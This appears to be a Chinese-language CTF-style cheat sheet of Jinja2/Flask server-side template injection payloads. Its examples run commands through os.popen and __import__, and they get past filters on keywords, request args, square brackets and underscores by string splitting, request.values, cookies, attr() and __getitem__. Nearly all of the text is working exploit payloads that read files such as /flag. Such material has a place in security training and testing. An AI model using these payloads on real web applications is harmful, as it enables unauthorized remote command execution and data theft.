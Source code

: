 ```
## **基础关键词绕过**
如由于使用\['**globals**']会造成500的服务器错误信息，并且当我直接输入search=globals时页面也会500，觉得这里应该是被过滤了，所以这里采用了字符串拼接的形式\['**glo'+'bals**']

```
{{''.__class__.__bases__[0].__subclasses__()[75].__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').listdir('/')}}


等效：
request.__class__
request["__class__"]
request["__cla""ss__"]
request["__cla"+"ss__"]
request|attr("__class__")

array[0]
array.pop(0)
```


^
## **请求参数args过滤绕过**
1、不用args，通过values获取所有参数。
```
?name={{lipsum.__globals__.os.popen(request.values.ocean).read()}}&ocean=cat /flag
```
2、通过cookie
```
?name={{url_for.__globals__[request.cookies.a][request.cookies.b](request.cookies.c).read()}}

cookie传参：
a=os;b=popen;c=cat /flag
```


^
## **过滤[]绕过**
现单双引号、args、[]被过滤
```
# values 没有被过滤
?name={{lipsum.__globals__.os.popen(request.values.ocean).read()}}&ocean=cat /flag

# cookie 可以使用
?name={{url_for.__globals__.os.popen(request.cookies.c).read()}}
Cookie:c=cat /flag


过滤了[]
用__getitem__(下标)
```


^
## **过滤_下划线绕过**

传参绕过
```
?name={{lipsum|attr(request.values.a)|attr(request.values.b)(request.values.c)|attr(request.values.d)(request.values.ocean)|attr(request.values.f)()}}&ocean=cat /flag&a=__globals__&b=__getitem__&c=os&d=popen&f=read
```
cookie绕过
```
?name={{(lipsum|attr(request.cookies.a)).os.popen(request.cookies.b).read()}}